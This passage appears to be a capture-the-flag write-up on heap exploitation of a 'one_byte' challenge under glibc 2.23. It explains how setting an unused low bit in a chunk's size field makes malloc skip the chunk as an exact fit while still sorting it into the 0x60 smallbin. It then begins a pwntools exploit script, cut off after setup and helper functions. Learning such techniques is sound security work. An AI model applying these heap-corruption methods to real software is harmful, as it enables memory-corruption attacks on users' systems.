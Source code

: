 - The exact fitting chunks are allocated from the unsortedbin, otherwise they're sorted into the appropriate small or large bin. The 'nb' variable represents the normalized request size, it's the result of malloc rounding up your request to the nearest actual chunk size.
- For example, if I request 3 bytes, 'nb' would hold the value 0x20.
- In the case of our challenge binary 'nb' is always 0x60.
- The 'size' variable represents the size of the unsorted chunk currently under inspection. malloc masks off the chunk's flags prior to this comparison to stop them from interfering.
- ***But chunk size fields only hold three flags, the fourth least-significant bit is neither a flag nor does it contribute to a chunk's size. During unsorted bin searches it is not masked off prior to this comparison because there's no good reason for it to ever be set in the first place.***
- So if we set the fourth least-significant bit of our 0x60 chunk, giving it a size field of 0x68, or 0x69 if you want to keep the prev_inuse flag, **it won't be considered an exact fit during requests for 0x60-sized chunks**. However, i**t will sort this chunk to 0x60 small bin.**
- Furthermore, the code responsible for sorting chunks into their respective bins does mask off, specifically it rotates away, the entire low order nybble of their size field, meaning that our chunk with the 0x68 size field will still be correctly sorted into the 0x60 smallbin.

***Set size chunk C to 0x68***

#### Complete script

```python
#!/usr/bin/env python3
from pwn import *

context.log_level = 'debug'
context.binary = elf = ELF('./one_byte', checksec=False)

libc = ELF('../.glibc/glibc_2.23/libc.so.6', checksec=False)

index = 0

gs = """
b *main
b *main+244
b *main+311
b *main+415
b *main+480
b *main+560
b *main+652
b *main+713
b *main+788
"""

def info(mes):
    return log.info(mes)

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.remote:
        return remote('', )
    else:
        return process(elf.path)

def malloc():
    global index
    io.sendline(b'1')
    io.recvuntil(b'> ')
    index += 1
    return index - 1
    
def free(index):
    io.sendline(b'2')
    io.sendlineafter(b'index: ', str(index).encode())
```
